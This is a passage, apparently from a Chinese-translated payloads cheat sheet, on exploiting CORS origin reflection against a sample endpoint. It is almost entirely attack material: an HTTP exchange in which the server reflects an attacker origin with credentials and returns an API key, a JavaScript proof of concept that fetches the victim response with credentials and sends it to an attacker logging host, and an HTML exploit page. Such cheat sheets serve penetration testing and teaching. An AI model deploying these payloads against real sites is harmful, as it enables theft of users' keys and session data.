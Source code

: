 通常您希望以 API 端点为目标。使用以下payload来利用目标 `https://victim.example.com/endpoint` 上的 CORS 配置错误：

### Vulnerable Example: Origin Reflection - 反射Origin

#### Vulnerable Implementation - 漏洞实现

```
GET /endpoint HTTP/1.1
Host: victim.example.com
Origin: https://evil.com
Cookie: sessionid=... 

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://evil.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```

#### Proof of concept - 概念验证

此 PoC 要求相应的 JS 脚本托管在 `evil.com`：

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://victim.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```

或：

```html
<html>
     <body>
         <h2>CORS PoC</h2>
         <div id="demo">
             <button type="button" onclick="cors()">Exploit</button>
         </div>
         <script>
             function cors() {
             var xhr = new XMLHttpRequest();
             xhr.onreadystatechange = function() {
                 if (this.readyState == 4 && this.status == 200) {
                 document.getElementById("demo").innerHTML = alert(this.responseText);
                 }
             };
              xhr.open("GET",
                       "https://victim.example.com/endpoint", true);
             xhr.withCredentials = true;
             xhr.send();
             }
         </script>
     </body>
 </html>
```
